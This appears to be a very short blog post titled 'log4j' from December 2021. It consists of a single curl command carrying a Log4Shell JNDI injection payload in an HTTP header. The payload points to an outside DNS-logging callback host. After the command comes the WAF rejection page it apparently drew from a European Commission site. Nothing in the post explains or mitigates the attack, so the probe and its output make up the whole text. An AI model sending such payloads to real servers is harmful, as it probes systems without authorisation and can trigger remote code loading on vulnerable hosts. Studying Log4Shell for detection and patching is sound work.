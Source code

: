 ```yaml
---
layout: post
title:  "log4j"
date:   2021-12-09 13:11:00 +0200
categories: tor
---
```

curl https://hostname -H 'X-Api-Version: ${jndi:ldap://xxx.dnslog.cn/a}'
<html><head><title>Request Rejected</title></head><body>The requested URL was rejected. Please contact for more information jrc-waf[at]ec.europa.eu.<br><br>Your support ID is: 866684377438240381<br><br><a href='javascript:history.back();'>[Go Back]</a></body></html>(aoc)
